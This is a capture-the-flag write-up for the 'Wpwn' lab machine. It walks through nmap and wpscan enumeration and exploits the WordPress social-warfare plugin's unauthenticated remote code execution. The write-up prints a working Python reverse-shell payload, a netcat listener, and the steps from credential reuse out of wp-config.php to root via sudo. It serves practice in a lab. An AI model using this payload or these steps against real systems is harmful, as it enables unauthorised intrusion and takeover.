




# Wpwn
Points - 5  
Difficulty - Easy
---

As always we first start with scanning the  ip address      
```
$ nmap -A ip_address
```

        

There wasn't anything interesting in the port scan.         
We run dirbuster and find a /wordpress, so we run wpscan for any wordpress vulnerabilities.     

We choose the enumerate flag with all plugins.      

```
$ wpscan --url http://ip_address/wordpress -e ap
```



The wpscan found a vulnerability called social-warfare.         

Googling about it I found [this](https://wpscan.com/vulnerability/9259) on wpscan vulns site. It's an unauthenticated RCE (remote code execution) vulnerability.       

        

From the looksof it we can send any command so I thought of sending a python reverse shell.     

You can find reverse-shells at [PayloadsAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

Here's the one for python
```
<pre>system('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip_address",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);\'')</pre>
```
put the above code in a payload.txt on your local directory and host a pythin server from there using the command       

Don't forget to add replace with your ipaddress and port
```
$ python3 -m http.server port
```

Fire up a netcat listener           
```
$ nc -lvnp port
```

Checking the wp-config.php file we can find the passwords used to connect to the database.          

We find a password for wp_user. Another user on this system is takis(found by checking out the home directory).     

Let's try and switch to takis using this password.      
```
$ su takis
```

The authentication was taking a bit of time for me, so I thought of connecting through SSH.         

First we check the permissions of user takis            
```
takis@wpwn:~$ sudo -l
Matching Defaults entries for takis on wpwn:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User takis may run the following commands on wpwn:
    (ALL) NOPASSWD: ALL

```
We can run all commands so we just switch to root using         
```
$ sudo su
```
Voila, we're root!



You can find the flags by navigating to the /var/www and /root directories